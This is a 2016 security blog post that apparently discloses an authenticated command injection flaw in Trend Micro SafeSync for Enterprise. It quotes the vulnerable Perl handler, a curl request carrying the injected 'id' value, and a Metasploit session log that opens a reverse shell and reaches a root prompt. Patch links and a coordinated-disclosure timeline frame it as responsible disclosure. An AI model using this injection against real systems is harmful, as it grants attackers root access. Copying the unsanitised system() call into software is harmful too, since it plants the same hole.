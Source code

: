 ```yaml
---
layout: post
title:  "Trend Micro Bug Hunting - Part II"
date:   2016-09-06 07:00:00
comments: true
categories: pentesting trendmicro
---
```



Trend Micro Safe Sync for Enterprise is affected by a remote command execution vulnerability. This vulnerability can be exploited by authenticated user on the web administration panel of Safe Sync for Enterprise to gain remote command execution with root privileges.

From Trend Micro documentation:

> Trend Micro(TM) SafeSync for Enterprise(TM) allows enterprises to securely synchronize, share, and manage corporate data. Deployed on premise and in a private cloud, SafeSync provides file encryption and document tagging to prevent unauthorized access to sensitive data. SafeSync also supports file version control and redundant file backup.
	       
I recommend anyone running SafeSync for Enterprise to apply the critical patch released by Trend Micro, available at the following location:

* Safesync Enhancement Pack 1 (SSFE 3.2) - [http://downloadcenter.trendmicro.com/index.php?regs=NABU&clk=latest&clkval=4887&lang_loc=1](http://downloadcenter.trendmicro.com/index.php?regs=NABU&clk=latest&clkval=4887&lang_loc=1)

Trend Micro Advisory is available on their [business support website](https://success.trendmicro.com/solution/1115193-security-bulletin-trend-micro-safesync-for-enterprise-ssfe-remote-code-execution-vulnerability)

#### Affected Versions

* Trend Micro Safe Sync for Enterprise up to version 3.2

### Authenticated RCE - Technical Description

The following Perl script do not sanitize user inputs prior to using them as parameters of system commands:

* /opt/SingleInstaller/MgmtUI/lib/MgmtUI/Controller/api/admin/ad.pm

An authenticated user can abuse this by injecting his own commands using different kind of operators such as &&, ; , >, <.

Let's look at the vulnerable component:

**/opt/SingleInstaller/MgmtUI/lib/MgmtUI/Controller/api/admin/ad.pm [lines 747-772]**

In the excerpt below, we can see that ```$server_id``` is directly initialiazed from unsanitized json data values and fed
to ad_changed_sync.py command as ```--sync``` and ```--updatehost``` parameters.

{% highlight perl %}
sub ad_sync_now_PUT {
  my ( $self, $c ) = @_;
  my $reqdata = $c->req->data;
  my $server_id = $reqdata->{id};

  my $result;
  eval {
    system("/opt/SingleInstaller/ad_module/ad_python/bin/python /opt/SingleInstaller/ad_module/ad_changed_sync.py --sync $server_id  --updatehost $server_id &");
  };
  my $e;

  if ( $e = Exception::Class->caught('InternalErrorException') ) {
    $c->response->status(500);
    $result = {
      code  => 'ERROR_INTERNAL_ERROR',
      error => $e->description
    };
  } else {
    $c->response->status(200);
    $result = {};
  }
  $c->stash->{json} = $result;
  $c->forward('View::JSON');
}
{% endhighlight %}


From a client point of view, this would happen like this:

<pre>
$ curl -X PUT -k -i 'https://safesync.local:3443/api/admin/ad/ad_sync_now' -H 'Accept: */*' -H 'Host: safesync.local:3443' -H 'Content-Type: application/json; charset=utf-8' -H 'Referer: https://safesync.local:3443/admin_ldap_integration.html' -H 'Cookie: mgmtui_session=268b871790680ba79c5de832b18549e6cb908e16' --data '{"id":"1; INJECTED COMMAND"}
</pre>

### Proof-of-Concept

Take a look at the Metasploit [module](https://github.com/QKaiser/metasploit-framework/blob/master/modules/exploits/linux/http/trendmicro_safesync_exec.rb) I wrote. It works to get a reverse shell as root but in a weird way, using interactive `sh` and FIFO files. This is because the injection happen within a `sh -c 'command'` call, meaning it will raise a "file descriptor not found" if you try the usual reverse shell in bash.

On the plus side, you can always use python if you can't live without tty.

<pre>
msf exploit(trendmicro_safesync_exec) > run
[*] Started reverse TCP handler on kali.local:4444
[*] Successfully logged in.
[*] Exploiting...
[*] Command shell session 12 opened (kali.local:4444 -> safesync.local:47333) at 2016-09-06 13:19:29 -0400
[*] Command Stager progress - 100.00% done (690/690 bytes)

/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# python -c 'import pty; pty.spawn("/bin/bash")'
root@appliance1:/#
</pre>

I doubt I'll try to merge the module upstream until I get it to work in a generic way (support for meterpreter stager).

### Conclusion

Once again, Trend Micro vulnerability team was great in handling this coordinated disclosure.

Part III will discuss yet another Trend Micro product where I managed to be greeted with ```#```. If everything goes as expected, advisory should be released by September 30th.


### Disclosure Timeline

* 2016-07-20: Advisory sent to Trend Micro 
* 2016-07-22: Trend Micro acknowledge the issue
* 2016-08-11: Trend Micro released patch
* 2016-09-06: Advisory publication
